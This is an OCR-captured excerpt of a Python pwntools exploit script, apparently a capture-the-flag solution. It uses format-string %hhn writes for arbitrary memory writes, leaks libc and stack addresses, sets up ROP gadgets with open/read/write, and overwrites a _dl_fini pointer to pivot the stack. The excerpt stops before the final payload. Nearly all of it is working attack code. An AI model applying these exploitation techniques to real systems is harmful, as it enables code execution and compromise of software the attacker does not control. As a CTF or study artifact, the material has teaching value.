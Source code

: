 ```python
        payload = "%%%dc%%10$hhn"%(data)
    payload = payload.ljust(24,'T')
    payload += p64(addr)
    sl(payload)
    return rc()

def alter_dw(addr,data):
    alter_byte(addr,data&0xff)
    alter_byte(addr+1,(data>>8)&0xff)
    alter_byte(addr+2,(data>>16)&0xff)
    alter_byte(addr+3,(data>>24)&0xff)

def alter_qw(addr,data):
    alter_dw(addr,data)
    alter_dw(addr+4,data>>32)

def flush(c='F'):
    sl(c*8+'\0'*0x80)
    rc()

# info
# elf, libc
ru('This\'s my mind!\n')

# leak libc base
offset___libc_start_main_ret = 0x20830
libc_base = int(leak_addr(46),16)-offset___libc_start_main_ret
info_addr('libc_base',libc_base)

# ld-2.23 dl_fini (function array)
ld_ptr = libc_base + 0x5f0f48  #_dl_fini
info_addr('ld_ptr',ld_ptr)
# option
info_addr('raw func in ptr',u64(show(ld_ptr)[:6]+'\x00\x00'))

# gadget
p6r   = 0x0013cc0f + libc_base
prsp  = 0x0000000000003838 + libc_base # pop rsp ; ret
prdi  = 0x0000000000021102 + libc_base # pop rdi ; ret
prsi  = 0x00000000000202e8 + libc_base # pop rsi ; ret
prdx  = 0x0000000000001b92 + libc_base # pop rdx ; ret
libc_open  = libc.symbols['open'] + libc_base
libc_read  = libc.symbols['read'] + libc_base
libc_write = libc.symbols['write'] + libc_base

flush()
# leak stack 
stack_base = int(leak_addr(41),16)
info_addr('stack_base',stack_base)

# calc pivot stack 
#pwndbg> p 0x7ffc3c28fc58-0x7ffc3c28fe40
#$1 = -488
prsp_addr  = stack_base - 488

# prepare to stack pivot
# g1
log.success("write p6r:"+hex(p6r)+" to "+hex(ld_ptr));
alter_dw(ld_ptr, p6r)
# g2
log.success("write prsp:"+hex(prsp)+ " to "+hex(prsp_addr));
alter_qw(prsp_addr, prsp)
# stack pivot to read buf
```
